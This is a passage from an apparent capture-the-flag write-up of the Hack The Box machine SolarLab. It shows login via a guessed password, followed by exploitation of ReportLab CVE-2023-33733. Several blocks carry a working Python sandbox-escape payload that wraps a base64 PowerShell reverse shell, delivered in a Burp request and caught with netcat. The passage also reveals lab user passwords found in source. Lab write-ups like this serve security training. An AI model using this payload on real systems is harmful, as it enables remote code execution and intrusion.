

Next I tried same for the username "**alexanderk**" but all of them failed, and feeling confident that the username structure is names trying lastly for **BlakeB** we got a match baby(**blakeb:ThisCanB3typedeasily1@**)



And we have a login:


Now we need to identity what can we do?

Clicking on "Leave Request" seems like we have a generator that creates a PDF, now I don't think these format have differences in between so I guess the issue might be in the pdf generator used?



But seems like a signature upload is also needed!



And checking seems like it asks for a image instead. So let's add a signature as jpg and send the request back:  


And sending the request as I expected we have some kind of HTML to PDF converted:

****

Now running a exif tool to check info we can see that the report have been generated by using the reportlab library.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# exiftool output.pdf         
ExifTool Version Number         : 12.76
File Name                       : output.pdf
Directory                       : .
File Size                       : 209 kB
File Modification Date/Time     : 2024:05:16 16:21:39+02:00
File Access Date/Time           : 2024:05:16 16:21:39+02:00
File Inode Change Date/Time     : 2024:05:16 16:22:15+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:16 17:19:46-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:16 17:19:46-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```

I see a cve with a POC: https://github.com/c53elyas/CVE-2023-33733

So since the poc executes the code my idea is to take the last part and masquerade it as image;

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# cat shell.txt    
add_paragraph("""
            <para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
                                                                                                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# mv shell.txt shell.jpg         
                                                                                                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# cat shell.jpg 
add_paragraph("""
            <para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
```

Now hopefully it will load the image as code and execute a shell?


But the app fails?


But then I went back to the poc and found that this is how it might be looking like the code instead?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# cat shell.jpg 
[
    [
        getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==')
        for Word in [
            orgTypeFun(
                'Word',
                (str,),
                {
                    'mutated': 1,
                    'startswith': lambda self, x: False,
                    '__eq__': lambda self, x: self.mutate()
                    and self.mutated < 0
                    and str(self) == x,
                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
                    '__hash__': lambda self: hash(str(self)),
                },
            )
        ]
    ]
    for orgTypeFun in [type(type(1))]
]
```

So let's try again! But it still fails! But then again back to the guide seems like this might be the commando to use?

```
cat >mallicious.html <<EOF
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
EOF
```

But  then looking around seems like the last html code is the one to be used and it can be used directly via Burpsuite, easiest is to use the travel form and checking I see some diferences where the code from poc used the wrong tags(para instead of p)



I might be able to inject it in the last paraghaph something like this:

```
POST /travelApprovalForm HTTP/1.1
Host: report.solarlab.htb:6791
Content-Length: 548
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://report.solarlab.htb:6791
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYo7f7bNjMJkTsFP1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://report.solarlab.htb:6791/travelApprovalForm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,fi;q=0.8
Cookie: session=.eJwlzjEOwzAIQNG7eO4AxhiTy0TYgNo1aaaqd2-krl_60vuUPY84n2V7H1c8yv7yshWrOQAQOzWgpWxIPLW5Biu6kXoDuTMJ2zDWDsmrVZXWDN1JqVb3NF6VPDJ8wVwQbfhIAVthIgIUnSroTLzfEOzZZ-91AJcbcp1x_DVYvj9q8i6j.ZkYe6Q.MyC3JskulalAriayrfqqNdD2AqU
Connection: close

------WebKitFormBoundaryYo7f7bNjMJkTsFP1
Content-Disposition: form-data; name="time_interval"

2024-05-01 to 2024-05-31
------WebKitFormBoundaryYo7f7bNjMJkTsFP1
Content-Disposition: form-data; name="travel_request"

China
------WebKitFormBoundaryYo7f7bNjMJkTsFP1
Content-Disposition: form-data; name="signature"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryYo7f7bNjMJkTsFP1
Content-Disposition: form-data; name="user_input"

<p><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></p>
------WebKitFormBoundaryYo7f7bNjMJkTsFP1--
```

But then I reset the machine and this time it gave me another reason, exceed limit:



I tried to inject into justification but what about in the destination instead? Still fails so i decide to make a whole request as legit, with the signature to pass the check but I will change the travel destination to accomodate my payload(the jsutification can be only 300 chars long):  




This finally gave me hope!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.11.16] 54703

PS C:\Users\blake\Documents\app> whoami
solarlab\blake
PS C:\Users\blake\Documents\app>
```

&nbsp;

# User.txt

Now poking those python files shows other password saved in the system of the users:

```
PS C:\Users\blake\Documents\app> cat utils.py
# utils.py
from flask import flash, current_app
from reportlab.platypus import SimpleDocTemplate, Paragraph, Spacer, Image
from reportlab.lib.styles import getSampleStyleSheet
from reportlab.lib.units import inch
from io import BytesIO
from datetime import date
import os
from models import db, User

def create_database():
    db.create_all()
    if not User.query.filter_by(username='blakeb').first():
        db.session.add(User(username='blakeb', password='ThisCanB3typedeasily1@'))
    if not User.query.filter_by(username='claudias').first():
        db.session.add(User(username='claudias', password='007poiuytrewq'))
    if not User.query.filter_by(username='alexanderk').first():
